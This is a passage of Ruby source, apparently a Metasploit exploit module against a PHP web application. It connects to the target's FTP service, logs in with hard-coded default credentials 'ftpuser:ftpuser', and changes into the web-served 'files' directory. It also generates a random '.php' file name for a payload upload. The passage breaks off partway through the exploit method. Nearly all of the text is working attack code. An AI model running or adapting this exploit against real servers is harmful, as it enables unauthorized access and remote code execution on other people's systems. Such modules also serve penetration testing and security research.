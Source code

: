 ```ruby
        'References'     =>
          [
            [ 'CVE', 'None' ],
            [ 'EDB', 'None' ]
          ],
        'Privileged'     => false,
        'Platform'       => [ 'php' ],
        'Arch'           => ARCH_PHP,
        'Targets'        =>
          [
            [ 'Automatic', { } ]
          ],
        'DisclosureDate' => '2020-12-04',
        'DefaultTarget' => 0))
  
      register_options(
        [
          OptPort.new('RPORT', [true, 'HTTP port', 80]),
          OptPort.new('RPORT_FTP', [true, 'FTP port', 21]),
          OptString.new('TARGETURI', [true, 'Base path to the website', '/files/'])
        ])
    end
  
    def exploit
      ftp_port = datastore['RPORT_FTP']
      payload_name = rand_text_alphanumeric(5+rand(3)) + '.php'
  
      sock = Rex::Socket.create_tcp('PeerHost' => rhost, 'PeerPort' => ftp_port)
  
      if sock.nil?
        fail_with(Failure::Unreachable, "#{rhost}:#{ftp_port} - Failed to connect to FTP server")
      else
        print_status("#{rhost}:#{ftp_port} - Connected to FTP server")
      end
  
      res = sock.get_once(-1, 10)
      unless res && res.include?('220')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure retrieving FTP 220 OK banner")
      end
      
      print_status("#{rhost}:#{ftp_port} - Sending copy commands to FTP server")
  
      # Login to server with ftpuser:ftpuser
  
      sock.puts("USER ftpuser\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('331')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure submitting username")
      end
  
      sock.puts("PASS ftpuser\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('230')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failed to login.")
      end
  
      print_status("#{rhost}:#{ftp_port} - Successfully logged in.")
  
      # switch CWD to /files for upload
  
      sock.puts("CWD files\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('250')
```